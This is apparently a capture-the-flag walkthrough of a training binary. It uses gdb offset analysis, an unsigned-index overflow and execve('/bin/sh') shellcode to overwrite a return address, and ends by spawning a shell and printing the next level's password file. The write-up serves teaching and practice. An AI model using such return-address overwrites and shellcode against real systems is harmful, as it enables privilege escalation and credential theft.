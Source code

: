 ```
   level07@OverRide:~$ ./level07
   ----------------------------------------------------
   Welcome to wil's crappy number storage service!
   ----------------------------------------------------
   Commands:
      store - store a number into the data storage
      read  - read a number from the data storage
      quit  - exit the program
   ----------------------------------------------------
      wil has reserved some storage :>
   ----------------------------------------------------

   Input command: store
   Number: 132
   Index: 4
   Completed store command successfully
   Input command: read
   Index: 4
   Number at data[4] is 132
   Completed read command successfully
   Input command: read
   Index: 1
   Number at data[1] is 0
   Completed read command successfully
   Input command: read
   Index: 9999999999999999999999999999999999
   Number at data[4294967295] is 0
   Completed read command successfully
   Input command: store
   Number: 999999999999999999999999999999999
   Index: 2
   Completed store command successfully
   Input command: read
   Index: 2
   Number at data[2] is 4294967295
   Completed read command successfully
   Input command: quit
```
***

```
   level07@OverRide:~$ gdb level07
   Non-debugging symbols:
   0x0804842c  _init
   0x08048470  printf
   0x08048470  printf@plt
   0x08048480  fflush
   0x08048480  fflush@plt
   0x08048490  getchar
   0x08048490  getchar@plt
   0x080484a0  fgets
   0x080484a0  fgets@plt
   0x080484b0  __stack_chk_fail
   0x080484b0  __stack_chk_fail@plt
   0x080484c0  puts
   0x080484c0  puts@plt
   0x080484d0  __gmon_start__
   0x080484d0  __gmon_start__@plt
   0x080484e0  __libc_start_main
   0x080484e0  __libc_start_main@plt
   0x080484f0  memset
   0x080484f0  memset@plt
   0x08048500  __isoc99_scanf
   0x08048500  __isoc99_scanf@plt
   0x08048510  _start
   0x08048540  __do_global_dtors_aux
   0x080485a0  frame_dummy
   0x080485c4  clear_stdin
   0x080485e7  get_unum
   0x0804861f  prog_timeout
   0x08048630  store_number
   0x080486d7  read_number
   0x08048723  main
   0x08048a00  __libc_csu_init
   0x08048a70  __libc_csu_fini
   0x08048a72  __i686.get_pc_thunk.bx
   0x08048a80  __do_global_ctors_aux
   0x08048aac  _fini
   (gdb)
```
***

With this information as well as analysis of assembler dump of functions we can say that:
 
 * All numbers are read with scanf as a uint into data array. Therefore index can be used to move on stack beyond 100 uints and rewrite the return address of main function 

 * At the start of the program all arguments and env variables are deleted. This prevents us from storing shellcode in an env variable as we did before 

* All 3rd indeces are forbidden which is troublesome for writing anything consecutive into the array. But this can be bypassed with uint overflow as pointer arithmetic is used for accessing the array

So the initial plan is to store shellcode in the data array and overwrite eip to jump to our shellcode

For this let's get eip and array addresses on stack:

***
```
   (gdb) b main
   Breakpoint 1 at 0x8048729
   (gdb) r
   Starting program: /home/users/level07/level07

   Breakpoint 1, 0x08048729 in main ()
   (gdb) info frame
   Stack level 0, frame at 0xffffd710:
   eip = 0x8048729 in main; saved eip 0xf7e45513
   Arglist at 0xffffd708, args:
   Locals at 0xffffd708, Previous frame's sp is 0xffffd710
   Saved registers:
   ebp at 0xffffd708, eip at 0xffffd70c   # eip at 0xffffd70c -  address eip is saved at = main return address
```
  ***
```
   # Let's find where array is located

   (gdb) b read_number
   Breakpoint 1 at 0x80486dd
   (gdb) r
   Starting program: /home/users/level07/level07
   ----------------------------------------------------
   Welcome to wil's crappy number storage service!
   ----------------------------------------------------
   Commands:
      store - store a number into the data storage
      read  - read a number from the data storage
      quit  - exit the program
   ----------------------------------------------------
      wil has reserved some storage :>
   ----------------------------------------------------

   Input command: read

   Breakpoint 1, 0x080486dd in read_number ()
   (gdb) x $ebp+0x8              # at this point location of data array is loaded on stack in read_number function
   0xffffd520:     0xffffd544    # 0xffffd544 - array address (altered by gdb with env variables); 0xffffd520 - its place on stack
```
***
```
   (gdb) p 0xffffd70c - 0xffffd544     # offset in main of saved return address from the array
   $1 = 456
   (gdb) p 456 / 4                     # divide by step in the array (uint is 4 bytes)
   $2 = 114                            # index of eip in data array
   
   (gdb) p 0xffffd544 - 0xffffd520     # offset between the array and its address pushed on stack 
   $4 = 36
```
***

Rip Index: 114 % 3 = 0 -> This index is forbidden but we know how to solve this

Runtime array address index: -36 / 4 = -9

To put shellcode into the array we need to translate it into uints (each 4 bytes long):
Shellcode for `execve("/bin/sh")` from [here](https://shell-storm.org/shellcode/files/shellcode-575.html): "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

| hex      | \x6a\x0b\x58\x99  | \x52\x68\x2f\x2f  | \x73\x68\x68\x2f  | \x62\x69\x6e\x89  | \xe3\x31\xc9\xcd    | /x80  |
| 4bytes   | 0x99580b6a        | 0x2f2f6852        | 0x2f686873        | 0x896e6962        | 0xcdc931e3          | 0x80 |
| uint     | 2572684138        | 791636050         | 795371635         | 2305714530        | 3452514787          | 128  |

To put shellcode at the beginning indeces of the array (0-5) we need to get around forbidden ones (0, 3).
For this we use uint overflow:

2^(32) overflows to 0

(2^(32) / 4) % 3 = 1 

- Index 0: (2^(32)) / 4 = 1073741824
- Index 3: (2^(32) + (3 * 4)) / 4 = 1073741827
 
To store runtime array address at eip we also has to use this trick:

- Index 114: (2^(32) + (114 * 4)) / 4 = 1073741938

***
```
   level07@OverRide:~$ ./level07
   ----------------------------------------------------
   Welcome to wil's crappy number storage service!
   ----------------------------------------------------
   Commands:
      store - store a number into the data storage
      read  - read a number from the data storage
      quit  - exit the program
   ----------------------------------------------------
      wil has reserved some storage :>
   ----------------------------------------------------

   Input command: store
   Number: 2572684138
   Index: 1073741824
   Completed store command successfully
   Input command: store
   Number: 791636050
   Index: 1
   Completed store command successfully
   Input command: store
   Number: 795371635
   Index: 2
   Completed store command successfully
   Input command: store
   Number: 2305714530
   Index: 1073741827
   Completed store command successfully
   Input command: store
   Number: 3452514787
   Index: 4
   Completed store command successfully
   Input command: store
   Number: 128
   Index: 5
   Completed store command successfully
   Input command: read
   Index: -9
   Number at data[4294967287] is 4294956388
   Completed read command successfully
   Input command: store
   Number: 4294956388
   Index: 1073741938
   Completed store command successfully
   Input command: quit
   $ whoami
   level08
   $ cat /home/users/level08/.pass
   7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```